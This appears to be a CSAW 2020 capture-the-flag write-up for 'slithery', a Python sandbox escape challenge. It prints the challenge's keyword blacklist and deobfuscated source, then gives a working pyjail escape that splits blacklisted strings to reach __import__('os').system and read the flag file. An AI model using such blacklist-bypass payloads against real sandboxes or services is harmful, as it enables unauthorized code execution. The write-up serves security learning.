 ```yaml
---
title: "CSAW2020 - slithery"
date: 2020-09-17T22:41:28Z
draft: false
---
```



`Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...`

nc pwn.chal.csaw.io 5011

[sandbox.py](./original.py)

Looking at the file it seems we have a very simple REPL, with some code prepended to every line we write. There is also a blacklist of words, which we do not have access to.

First I started by simply trying to run the file, which obviously didn't work, since I don't have "blacklist", so I just replaced `blacklist.BLACKLIST` with `[]`
Now it did run, and we have a similar shell to the remote one, but without a blacklist. Lets fix that.

```$ echo "print(blacklist.BLACKLIST)" |nc pwn.chal.csaw.io 5011
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Huh, it just worked.

```py
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Replace the original `blacklist.BLACKLIST` with `blacklist` and we have an equal shell to theirs.

Now, I wonder if degarbling the `final_cmd` will help?

`uOaoBPLLRN -> sandbox_fd`

`int(((54 * 8) / 16) * (1/3) - 8) -> 1`
`uDwjTIgNRU -> one`

`ORppRjAVZL -> first_line_words_array`

`AAnBLJqtRv -> second_word`

`bAfGdqzzpg -> last_word`

The second word on this file is "base64" and the last word on the first line is "b64decode"
This next line grabs the b64decode sub module and puts its reference in "HrjYMvtxwA" I won't rename this because it might be useful for blacklist evasion.

`X19pbXBvcnRfXw==` decodes to `__import__` and `bnVtcHk=` decodes to... `numpy`?? Numpy pyjail escape?

Anyway, not renaming `RMbPOQHCzt` either, numpy might be useful.

Here is the final file:
```py
#!/usr/bin/env python3
from base64 import b64decode
# import blacklist  # you don't get to see this :p
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist]):
                raise Exception("not allowed!!")

            final_cmd = """
sandbox_fd = open("sandbox.py", "r")
one = 1
first_line_words_array = sandbox_fd.readlines()[one].strip().split(" ")
second_word = first_line_words_array[one]
last_word = first_line_words_array[-one]
sandbox_fd.close()
HrjYMvtxwA = getattr(__import__(second_word), last_word)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

Try the classic pyjail escape, but try to accomodate for the blacklisted strings.
`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('ls .'))`
Uh... It worked.

`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('cat flag.txt'))`
Done!
Seems like the reversing wasn't needed at all.

